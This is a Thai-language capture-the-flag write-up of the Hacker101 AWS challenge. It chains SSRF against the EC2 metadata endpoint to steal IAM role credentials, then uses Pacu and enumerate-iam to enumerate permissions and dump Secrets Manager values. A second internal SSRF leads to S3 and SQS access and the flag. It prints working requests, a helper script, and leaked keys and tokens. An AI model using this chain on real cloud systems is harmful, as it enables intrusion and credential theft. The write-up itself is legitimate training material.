

# Hackerone AWS CTF



ให้หา Flag จาก link ให้เขาให้มาแล้วนำมากรอก


ตัวเว็บจะให้เราส่ง URL แล้ว Server จะ Request URL แล้วแสดงผล Preview ออกมา เป็นไปว่าอาจมีช่องโหว่ [SSRF](https://portswigger.net/web-security/ssrf)

เนื่องจากเป็น AWS CTF ผมจึงสันนิษฐานว่าตัว Web Server คือ EC2 Instance ใน EC2 จะมึ [link-local address](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instancedata-data-retrieval.html) คือ IP:169.254.169.254 ทีทำให้อาจสามารถดึงข้อมูล Instance metadata ออกมาได้ผ่านช่องโหว่ SSRF


ทดสอบใส่ IP 169.254.169.254 ว่าช่องโหว่ SSRF ใช้งานได้ 
ตัวเว็บแสดง EC2 metadata API versions ออกมา แสดงว่า SSRF ใช้งานได้


```bash
#!/bin/bash 
mkdir -p $(dirname '/tmp/package.zip') 
aws s3 cp 's3://h101-h101-code-deploy/IsMySiteDown.zip' '/tmp/package.zip' 
mkdir -p $(dirname '/tmp/challenge.ini') 
aws s3 cp 's3://h101-h101-code-deploy/challenge.ini' '/tmp/challenge.ini' 
mkdir -p $(dirname '/tmp/challenge-nginx.conf') 
aws s3 cp 's3://h101-h101-code-deploy/challenge-nginx.conf' '/tmp/challenge-nginx.conf' 
mkdir -p $(dirname '/tmp/challenge.service') 
aws s3 cp 's3://h101-h101-code-deploy/challenge.service' '/tmp/challenge.service' 
mkdir -p $(dirname '/tmp/challenge_deploy.sh') 
aws s3 cp 's3://h101-h101-code-deploy/challenge_deploy.sh' '/tmp/challenge_deploy.sh' 
set -e chmod +x '/tmp/challenge_deploy.sh' '/tmp/challenge_deploy.sh' undefined
```
ลองดู [User data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html) จาก Matedata มีการดึงไฟล์จาก Bucket h101-h101-code-deploy เพือ Deploy ตัวเว็บ ในวันแรกที่ผมเล่นทีมงานไม่ได้สร้าง Bucket h101-h101-code-deploy เอาไว้ชึงหน้าเป็นห่วงเพราะอาจมีคนสร้าง bucket ชื่อเดียวกันแล้ว Upload Malware ทำให้ผู้ CTF ได้รับผลกระทบ หลังจากนั้นประมาณหนึ่งวันมีคนสร้าง Bucket h101-h101-code-deploy เป็น Public

| User data คือ script ที่จะทำงานทุกครั้งที่ EC2 instance เปิดเครื่อง


```bash
$ curl http://h101-h101-code-deploy.s3.amazonaws.com/flag.txt
there's still more to look for young padawan
```

ก่อนหน้านี้ ฺBucket ไม่ได้มีไฟล์หน้าตาแบบนี้ ผมจึงสงสัยว่ามันใช่ Bucket ที่ทีมงานคนเป็นสร้างรึปล่าว และเมื่อเร็วๆนี้มี [Research](https://www.cloudar.be/awsblog/finding-the-accountid-of-any-public-s3-bucket/) ที่สามารถหา AWS account ID จาก Bucket ที่เป็น Public ได้ ผมลองตรวจสอบดูพบว่าเป็น Bucket สร้างโดย คนละ account กับ Crendentials ที่ได้จาก EC2 ผมจึงคิดว่า Bucket นี้ไม่น่าจะเป็นของทีมงาน


ดึง AWS credentials จาก http://169.254.169.254/latest/meta-data/iam/security-credentials/SSRFChallengeOneRole

```bash
$ aws --profile ssrf sts get-caller-identity
{
    "UserId": "AROASCLNOVA3WZBF4QMYW:i-06b09a4c7cdd33156",
    "Account": "000000000000",
    "Arn": "arn:aws:sts::000000000000:assumed-role/SSRFChallengeOneRole/i-06b09a4c7cdd33156"
}
```
ใช้ API get-caller-identity ดูข้อมูลของ Credentials คร่าวๆ ผมจะ censor account ID เป็น 000000000000  
 - InstacneId: `i-06b09a4c7cdd33156`
 - RoleArn: `arn:aws:iam::000000000000:role/SSRFChallengeOneRole`

| Tip: get-caller-identity สามารถเรียกใช้ได้โดยไม่ต้องมี IAM policy และไม่สามารถตั้ง IAM policy ให้ Deny permission GetCallerIdentity ได้

ต่อไปหาว่า Credentials มี permission อะไรบ้าง ผมจะ tool ที่ชื่อว่า Pacu
https://github.com/RhinoSecurityLabs/pacu
```bash
Pacu (ssrf:imported-ssrf) > run iam__enum_permissions
  Running module iam__enum_permissions...
[iam__enum_permissions] Confirming permissions for roles:
[iam__enum_permissions]   SSRFChallengeOneRole...
[iam__enum_permissions]     List role policies failed
[iam__enum_permissions]       FAILURE: MISSING REQUIRED AWS PERMISSIONS
[iam__enum_permissions]     List attached role policies failed
[iam__enum_permissions]       FAILURE: MISSING REQUIRED AWS PERMISSIONS
[iam__enum_permissions]     Confirmed permissions for SSRFChallengeOneRole
[iam__enum_permissions] iam__enum_permissions completed.

[iam__enum_permissions] MODULE SUMMARY:

  Confirmed permissions for 0 user(s).
  Confirmed permissions for 0 role(s).
```
ดูเหมือนว่า SSRFChallengeOneRole จะไม่มี permission อ่าน IAM policy ดังนั้นผมจะลอง Brute force permissions โดยใช้ tool 
https://github.com/andresriancho/enumerate-iam  จริงๆ Pacu ก็มี module brute force permissions แต่บางครั้งก็ Scan ไม่เจอ permission บางตัว 

```bash
$ python3 ./enumerate-iam.py --access-key ACCESS_KEY --secret-key SECRET_KEY --session-token SESSION_TOKEN
2021-04-11 14:57:22,149 - 222 - [INFO] Starting permission enumeration for access-key-id "ASIASCLNOV__________"
2021-04-11 14:57:23,835 - 222 - [INFO] -- Account ARN : arn:aws:sts::000000000000:assumed-role/SSRFChallengeOneRole/i-06b09a4c7cdd33156
2021-04-11 14:57:23,835 - 222 - [INFO] -- Account Id  : 000000000000
2021-04-11 14:57:23,835 - 222 - [INFO] -- Account Path: assumed-role/SSRFChallengeOneRole/i-06b09a4c7cdd33156
2021-04-11 14:57:26,283 - 222 - [INFO] Attempting common-service describe / list brute force.
2021-04-11 14:57:27,808 - 222 - [INFO] -- secretsmanager.list_secrets() worked!
2021-04-11 14:57:29,762 - 222 - [INFO] -- dynamodb.describe_endpoints() worked!
2021-04-11 14:57:31,497 - 222 - [INFO] -- ec2.describe_instances() worked!
2021-04-11 14:57:36,144 - 222 - [INFO] -- sts.get_caller_identity() worked!
```
เจอ secretsmanager.list_secrets เป็น permission ที่น่าสนใจเพราะอาจมีการเก็บ password หรือ key ไว้ข้างใน secretsmanager เนื่องจาก sercretsmanager จะถูกแยกกันแต่ละ region ให้ไปใช้ AWS cli แต่ละ region ก็คงเสียเวลา ใน Pacu มี module `enum_sercets` ที่ใช้ดึงข้อมูลจาก secretsmanager และ parameter store

```bash
Pacu (ssrf:imported-ssrf) > run enum__secrets                                                               
    Running module enum__secrets...
Automatically targeting 
regions:                                                                                     
ap-northeast-1                                                              
ap-northeast-2                                                              
ap-south-1
ap-southeast-1
ap-southeast-2
ca-central-1
eu-central-1
eu-north-1
eu-west-1
eu-west-2
eu-west-3
sa-east-1
us-east-1
us-east-2
us-west-1
us-west-2
Continue? (y/n) y
[enum__secrets] Starting region ap-northeast-1...
[enum__secrets] FAILURE:
[enum__secrets]  AccessDeniedException
[enum__secrets]     Could not list parameters... Exiting
.
.
.
[enum__secrets] enum__secrets completed.

[enum__secrets] MODULE SUMMARY:

    10 Secret(s) were found in AWS secretsmanager
    0 Parameter(s) were found in AWS Systems Manager Parameter Store
    Check ./sessions/<session name>/downloads/secrets/ to get the value
```

```bash
$ cat pacu/sessions/ssrf/downloads/secrets/secrets_manager/secrets.txt
web_service_health_api_key:hXjYspOr406dn93uKGmsCodNJg3c2oQM
web_service_health_api_key:hXjYspOr406dn93uKGmsCodNJg3c2oQM
web_service_health_api_key:hXjYspOr406dn93uKGmsCodNJg3c2oQM
```
ถึงจะเจอ api key แต่ไม่รู้ว่าจะเอาไปใช้ที่ไหน ผมพยามหาใน api gateway ดูว่าจะเจออะไรบางไหมแต่ว่า SSRFChallengeOneRole ไม่มี permission อ่าน api gateway


ผมเลยคิดว่าอาจเป็น api ของตัว web server รึปล่าว
`
https://2c3c50de1818edf24d9daf904ade8673a68a6c03.aws.h1ctf.com/api/check_webpage?addr=http://www.example.com`

```
api/web_service_health_api_key
api/web_service_health
api/check_health
.
.
```
```html
$ curl https://2c3c50de1818edf24d9daf904ade8673a68a6c03.aws.h1ctf.com/api/check_health
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>404 Not Found</title>
<h1>Not Found</h1>
<p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
```
ผมลองชื่อ api หลายๆแบบที่คิดว่าน่าจะเกี่ยวกับ web_service_health แต่ก็ไม่เจออะไร

ใน Credentials ที่เราได้มายังมี permission Describer instnaces ที่ผมยังไม่ได้ดู
```console
Pacu (ssrf:imported-ssrf) > run ec2__enum
  Running module ec2__enum...
Automatically targeting regions:
  ap-northeast-1
  ap-northeast-2
  ap-south-1
  ap-southeast-1
  ap-southeast-2
  ca-central-1
  eu-central-1
  eu-north-1
  eu-west-1
  eu-west-2
  eu-west-3
  sa-east-1
  us-east-1
  us-east-2
  us-west-1
  us-west-2
Continue? (y/n) y
.
.
.
  8 total instance(s) found.

Pacu (ssrf:imported-ssrf) > data EC2
{
  "Instances": [
    {
      "AmiLaunchIndex": 0,
      "Architecture": "x86_64",
      "BlockDeviceMappings": [
        {
          "DeviceName": "/dev/xvda",
          "Ebs": {
            "AttachTime": "Wed, 17 Mar 2021 14:06:57",
            "DeleteOnTermination": true,
            "Status": "attached",
            "VolumeId": "vol-0ef6d0747aa7b4fd6"
          }
        }
      ],
      "CapacityReservationSpecification": {
        "CapacityReservationPreference": "open"
      },
      "ClientToken": "Infra-SSRFC-158OVML6XGXEY",
      "CpuOptions": {
```

```
cat ec2.txt| jq ".Instances[].Region"
"fips-us-west-2"
"fips-us-west-2"
"fips-us-west-2"
"fips-us-west-2"
"us-west-2"
"us-west-2"
"us-west-2"
"us-west-2"
```
พบ Instance 8 เครื่องอยู่ใน region us-west-2

```json
$ cat ec2.txt| jq ".Instances[].Tags"
[
  {
    "Key": "aws:cloudformation:stack-name",
    "Value": "InfraStack-SSRFChallengeTwoNestedStackSSRFChallengeTwoNestedStackResource041FA5EF-1DK974V1W1Z1B"
  },
  {
    "Key": "Name",
    "Value": "InfraStack/SSRFChallengeTwo/SSRFChallengeTwoInstance"
  },
  {
    "Key": "aws:cloudformation:logical-id",
    "Value": "SSRFChallengeTwoInstance5F0BE17C"
  },
  {
    "Key": "aws:cloudformation:stack-id",
    "Value": "arn:aws:cloudformation:us-west-2:142500341815:stack/InfraStack-SSRFChallengeTwoNestedStackSSRFChallengeTwoNestedStackResource041FA5EF-1DK974V1W1Z1B/9fd075e0-8729-11eb-a018-0684ebec448d"
  }
]
[
  {
    "Key": "aws:cloudformation:logical-id",
    "Value": "SSRFChallengeOneInstance63D85DCC"
  },
  {
    "Key": "aws:cloudformation:stack-id",
    "Value": "arn:aws:cloudformation:us-west-2:142500341815:stack/InfraStack-SSRFChallengeOneNestedStackSSRFChallengeOneNestedStackResource3A4A5FBB-1LCMGSE4M5U3C/9f3df9e0-8729-11eb-8cac-06dc7a0224df"
  },
  {
    "Key": "Name",
    "Value": "InfraStack/SSRFChallengeOne/SSRFChallengeOneInstance"
  },
  {
    "Key": "aws:cloudformation:stack-name",
    "Value": "InfraStack-SSRFChallengeOneNestedStackSSRFChallengeOneNestedStackResource3A4A5FBB-1LCMGSE4M5U3C"
  }
]
[
  {
    "Key": "Name",
    "Value": "InfraStack/SSRFChallengeOne/SSRFChallengeOneInstance"
  }
]
[
  {
    "Key": "Name",
    "Value": "InfraStack/SSRFChallengeOne/SSRFChallengeOneInstance"
  }
]
```
ดูจาก Tag Instance ถูกสร้างโดย Cloudformation 

```
$ cat ec2.txt| jq ".Instances[].PublicIpAddress"
null
"18.236.255.177"
"35.164.178.159"
"52.38.29.30"
null
"18.236.255.177"
"35.164.178.159"
"52.38.29.30"
```
```bash
$ curl 18.236.255.177
Incorrect challenge subdomain.%
$ curl 35.164.178.159
$ Incorrect challenge subdomain.%
$ curl 52.38.29.30
Incorrect challenge subdomain.%
```

ดูเหมือน Public ip ที่ได้มาจะเขาตัวเว็บ Challenge เอง ที่ต้องมีการใส่ hash ที่หน้า subdomain  `<hash>.aws.h1ctf.com` 
```bash
$ cat ec2.txt| jq ".Instances[].PrivateIpAddress"
"10.0.0.55"
"10.0.0.10"
"10.0.0.12"
"10.0.0.11"
"10.0.0.55"
"10.0.0.10"
"10.0.0.12"
"10.0.0.11"
```
จากข้างบนมี Instance หนึ่งเครื่องที่ไม่มี Public IP ตรงกับ Private IP 10.0.0.55 ถ้าเราใช้ SSRF จะทำให้เราสามารถ Request Web ใน Local network ที่ Server อยู่ได้

```
$ curl "https://0b08a14ff8b2b3d22412af70a85392d0f7ba9078.aws.h1ctf.com/api/check_webpage?addr=http://10.0.0.55"

{"page":"TWlzc2luZyBhcGlfa2V5IHBhcmFtZXRlci4gU2VlIEFXUyBTZWNyZXRzTWFuYWdlci4=","status":401}
```
ตัว API ส่งหน้าเว็บของ page มาในรูป Base64 ผมเขียน Python script เพื่อให้การ requet สะดวกมากขึ้น

```python
import requests
import sys
import json
import base64

base = "https://2c3c50de1818edf24d9daf904ade8673a68a6c03.aws.h1ctf.com/api/check_webpage?addr="
url = sys.argv[1]

r = requests.get(base+url)

page = json.loads(r.text)['page']
text = base64.b64decode(page).decode("utf-8")
print(text)
```
```
$ python3 der.py http://10.0.0.55
Missing api_key parameter. See AWS SecretsManager.
```
ดูเหมือนจะขาด API key ผมลองใช้ key ที่ได้มาจาก SecretManager
```html
$ python3 der.py "http://10.0.0.55/?api_key=hXjYspOr406dn93uKGmsCodNJg3c2oQM"
<!DOCTYPE html>
<html lang="en">
<head>
    <title>SERVICE HEALTH MONITOR</title>
    <style>
        .ok {
            color: green;
        }
        .err {
            color: red;
        }
    </style>
    <script>api_key = "hXjYspOr406dn93uKGmsCodNJg3c2oQM";</script>
</head>
<body>
    <h1>MACHINE STATUS</h1>
    <table id="status_table">
        <tr>
            <th>ADDR</th>
            <th>STATUS</th>
        </tr>
    </table>
</body>
<script src="/static/main.js"></script>
</html>
```
เป็นหน้าเว็บ monitor service ใน server ลองตรวจสอบไฟล์ main.js เพือจะเจออะไรที่น่าสนใจ
```js
$ python3 der.py "http://10.0.0.55/static/main.js"                                                              function fetch_machines() {                                                                                                 return authenticated_fetch(`/api/get_machines`);                                                                    }                                                                                                                                                                                                                                               function fetch_system_status(addr) {
    return authenticated_fetch(`/api/get_status?addr=${addr}`);
}

function authenticated_fetch(addr) {
    let separator = addr.includes("?") ? "&" : "?";

    return fetch(`${addr}${separator}api_key=${api_key}`);
}

fetch_machines()
    .then((result) => result.json())
    .then((machine_addrs) => {
        machine_addrs.forEach((addr) => {
            fetch_system_status(addr)
                .then((result) => result.json())
                .then((data) => {
                    let status_table = document.getElementById("status_table");

                    let status_row = document.createElement("tr");
                    let machine_addr = document.createElement("td");
                    machine_addr.textContent = addr;
                    let machine_status = document.createElement("td");
                    machine_status.textContent = data["success"] ? "OK" : "UNREACHABLE";
                    machine_status.className = data["success"] ? "ok" : "err";

                    status_row.appendChild(machine_addr);
                    status_row.appendChild(machine_status);
                    status_table.appendChild(status_row);
                })
        });
    });
```
ใน 10.0.0.55 มี API อยู่สองตัว และทุกครั้งที่ request ต้องส่ง API key ไปด้วย
- /api/get_machines
- /api/get_status

```html
$ python3 der.py "http://10.0.0.55/api/get_machines?api_key=hXjYspOr406dn93uKGmsCodNJg3c2oQM"
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
<title>500 Internal Server Error</title>
<h1>Internal Server Error</h1>
<p>The server encountered an internal error and was unable to complete your request. Either the server is overloaded or there is an error in the application.</p>
```
ผมลอง request api get_machines อยู่หลายครั้งแต่ดูเหมือนว่าจะใช้งานไม่ได้

```bash
$ python3 der.py "http://10.0.0.55/api/get_status?addr=10.0.0.55%26api_key=hXjYspOr406dn93uKGmsCodNJg3c2oQM"
{"success":false}
python3 der.py "http://10.0.0.55/api/get_status?addr=10.0.0.11%26api_key=hXjYspOr406dn93uKGmsCodNJg3c2oQM"
{"success":false}
```
ทดลอง request ip ใน subnet ก็ให้ output ออกมาเหมือนกันหมด ลองใส่ Metadata ip

```
$ python3 der.py "http://10.0.0.55/api/get_status?addr=169.254.169.254%26api_key=hXjYspOr406dn93uKGmsCodNJg3c2oQM"
{"data":"1.0\n2007-01-19\n2007-03-01\n2007-08-29\n2007-10-10\n2007-12-15\n2008-02-01\n2008-09-01\n2009-04-04\n2011-01-01\n2011-05-01\n2012-01-12\n2014-02-25\n2014-11-05\n2015-10-20\n2016-04-19\n2016-06-30\n2016-09-02\n2018-03-28\n2018-08-17\n2018-09-24\n2019-10-01\n2020-10-27\nlatest","success":true}
```
API get_status มีช่องโหว่ SSRF 

```bash
$ python3 der.py "http://10.0.0.55/api/get_status?addr=169.254.169.254/latest/meta-data/iam/security-credentials/SSRFChallengeTwoRole%26api_key=hXjYspOr406dn93uKGmsCodNJg3c2oQM"
{"data":"{\n  \"Code\" : \"Success\",\n  \"LastUpdated\" : \"2021-04-11T04:33:12Z\",\n  \"Type\" : \"AWS-HMAC\",\n  \"AccessKeyId\" : \"ASIASCLNOVA_________\",\n  \"SecretAccessKey\" : \"6xibqrBlYnifkHa5c1j+RzgBaBXESdqky2jWs/3a\",\n  \"Token\" : \"IQoJb3JpZ2luX2VjEFwaCXVzLXdlc3QtMiJIMEYCIQCspdqMs/rU5sF5VB7LLBBrDtxoXv9IoFzv/94oruJOFQIhAJ7MXhDW6S6aD5VVoZQVAxd4SHh69yBGpWibj8MRyXmYKr0DCLX//////////wEQABoMMTQyNTAwMzQxODE1IgxRqJTcRJJw9g4FFs8qkQOk8J6rAUgpzxlQcgycLe2VmsPzmrsMushILIIEGj1TRKOuRDnMFew0nB9xTudLmmhaRgVibFMfU2OGyonVg87b6Smtq8Vj5/+lTnGScw7cAhugXm9+Ea4BGZylF1kxy+fAG5kgzul1O2Uh2sBt+IK6wuhOVOkhweIfmY5Qn58AZTuKQtdf6VL9VbdYvGWHeiyg8eRWvvPEV8SmgDrwHLFa88qZ3OJ1SO9sP93OCTMfdB9xnLawoTm8gp0n3bBHARhqhcofUZ34DScd/L6T4SA6b2kZgX17MSCITBsX86rcLXyGJ5hLg6lCYoKuparFclzj4Qypzg8rx92DhG+dRVdIAppnPssSrLwDzsqmCHKHY4LCG+B5RM89xLz47R5EQJjuxPyHM/VnbCSHN4EP7ktjrbnuAvfeiXXFu84afN15XD2Ivbald8gF40fjXgRffKvUI8naf9ek5NhCFv3dsWsweLApgBjep3acFM4qHZt5YUO5G+RJdOR6NIr3QwA8twQ6PPlmp0Ou75YoIU3g90i9OzDo/s6DBjrqAaWA0RUbxTvgUF1lbRjbJ94YrfztYEGSkqYrSFURtLGo4zSSiokyXA9RRQ2DSh3JwqJ1WZn77mTC5BgilR4cplAtwLN/q5uyZw7k6I+5PZIg/eQ0Z5rVgPUUd57sdWM25NyhNWmy8m74uIOU8uYA3Zvx5e1+lA+0UgmSvQ9POsV7NuBC9IcLFAwIZ0aWW6OaYZzCJZQonG3qvKWd8VBpCrKJJM3ydG+i/Ef/c3CeGSrLPL5IXpOrix7Xs5MHdTzlWe/5nf7pJfgHTb//FdELHevg97GpwxABzUTGRZ0u4e0DBm9yMBNz/zay3w==\",\n  \"Expiration\" : \"2021-04-11T14:49:24Z\"\n}","success":true}
```
เอา Credentials จาก Instance

```
$ python3 ./enumerate-iam.py --access-key ACCESS_KEY --secret-key SECRET_KEY --session-token SESSION_TOKEN
2021-04-11 15:53:07,408 - 1199 - [INFO] Starting permission enumeration for access-key-id "ASIASCLNOVA_________"
2021-04-11 15:53:09,172 - 1199 - [INFO] -- Account ARN : arn:aws:sts::000000000000:assumed-role/SSRFChallengeTwoRole/i-04e8c92684401cee9
2021-04-11 15:53:09,173 - 1199 - [INFO] -- Account Id  : 000000000000
2021-04-11 15:53:09,173 - 1199 - [INFO] -- Account Path: assumed-role/SSRFChallengeTwoRole/i-04e8c92684401cee9
2021-04-11 15:53:11,644 - 1199 - [INFO] Attempting common-service describe / list brute force.
2021-04-11 15:53:23,170 - 1199 - [INFO] -- secretsmanager.list_secrets() worked!
2021-04-11 15:53:26,822 - 1199 - [INFO] -- s3.list_buckets() worked!
2021-04-11 15:53:27,388 - 1199 - [INFO] -- dynamodb.describe_endpoints() worked!
2021-04-11 15:53:33,786 - 1199 - [INFO] -- sts.get_caller_identity() worked!
```
มี permission list_secretes และ list_buckets ที่น่าสนใจ

```
Pacu (ssrf:imported-ssrf2) > run enum__secrets
  Running module enum__secrets...
[enum__secrets] enum__secrets completed.

[enum__secrets] MODULE SUMMARY:

    10 Secret(s) were found in AWS secretsmanager
    0 Parameter(s) were found in AWS Systems Manager Parameter Store
    Check ./sessions/<session name>/downloads/secrets/ to get the values
```
```
$ cat sessions/ssrf/downloads/secrets/secrets_manager/secrets.txt
web_service_health_api_key:hXjYspOr406dn93uKGmsCodNJg3c2oQM
web_service_health_api_key:hXjYspOr406dn93uKGmsCodNJg3c2oQM
web_service_health_api_key:hXjYspOr406dn93uKGmsCodNJg3c2oQM
h101_flag_secret_secondary:O6cd8Q91vFc00xUVSoUYORTVMGddo8y3
web_service_health_api_key:hXjYspOr406dn93uKGmsCodNJg3c2oQM
h101_flag_secret_secondary:O6cd8Q91vFc00xUVSoUYORTVMGddo8y3
```
เจอ h101_flag_secret_secondary ต่อไปลองดู s3 ว่ามีอะไรบ้าง

```
aws --profile ssrf2 s3 ls
2021-04-06 23:56:17 awsctfelblogs
2021-04-07 11:53:15 awsctfelbqueryresults
2021-03-17 21:04:26 h101-dev-notes
2021-03-17 21:03:20 h101-flag-files
2021-03-17 03:22:02 h101ctfloadbalancerlogs
```
มีแค่ bucket h101-dev-notes เดียวที่ Role นี้ listbucket ได้
```
$ aws --profile ssrf2 s3 ls s3://h101-dev-notes
$ aws --profile ssrf2 s3 sync s3://h101-dev-notes .
download: s3://h101-dev-notes/README.md to ./README.md
```
```md
# Flag Generation
This document outlines the steps required to generate a flag file.

## Steps
1. Fetch your `hid` and `fid` values from the  `/api/_internal/87tbv6rg6hojn9n7h9t/get_hid` endpoint.
2. Send a message to the SQS queue `flag_file_generator` with the following format
    ```json
    {"fid": "<fid>", "hid": "<hid>"}
    ```
    where `<fid>` and `<hid>` are the values you received in step 1.
3. Get the `<fid>.flag` file from the `flag-files` (name may be slightly different) S3 bucket.

## Tips

If you've never worked with SQS (Simple Queue Service) before then the [following link](https://docs.aws.amazon.com/cli/latest/reference/sqs/send-message.html)
may be helpful in sending messages from the aws cli tool.
```
จากที่อ่านไฟล์ README ให้เราเอา fid กับ hid จาก api แล้วส่ง SQS จากนั้นเอาไฟล์ <fid>.flag จาก bucket h101-flag-files

```
$ python3 der.py "http://10.0.0.55/api/_internal/87tbv6rg6hojn9n7h9t/get_hid?api_key=hXjYspOr406dn93uKGmsCodNJg3c2oQM"
{"fid":"d799ede6-bc84-4b7e-aa00-b5fe89c8824e","hid":"a259a1b9b34480d4542a29f1e82c32f4486c07f3"}
```

```
$ aws --profile ssrf2 sqs send-message --queue-url https://us-west-2.queue.amazonaws.com/142500341815/flag_file_generator \
> --message-body '{"fid": "d799ede6-bc84-4b7e-aa00-b5fe89c8824e", "hid": "a259a1b9b34480d4542a29f1e82c32f4486c07f3"}'
{
    "MD5OfMessageBody": "0009d6236ea3c0658fbc43c71e8e941d",
    "MessageId": "67eb0959-ce7e-4fea-a3b5-d865b7481b01"
}
```

```
$ aws --profile ssrf2 s3 cp s3://h101-flag-files/d799ede6-bc84-4b7e-aa00-b5fe89c8824e.flag .
download: s3://h101-flag-files/d799ede6-bc84-4b7e-aa00-b5fe89c8824e.flag to ./d799ede6-bc84-4b7e-aa00-b5fe89c8824e.flag
$ cat d799ede6-bc84-4b7e-aa00-b5fe89c8824e.flag
93cb6404670efa904895145676cd8bf081464766
```
นำ flag ไปกรอกในหน้า challenge ตอนแรกแล้ว นำ flag ที่ได้ไปกรอกใน hacker101 อีกที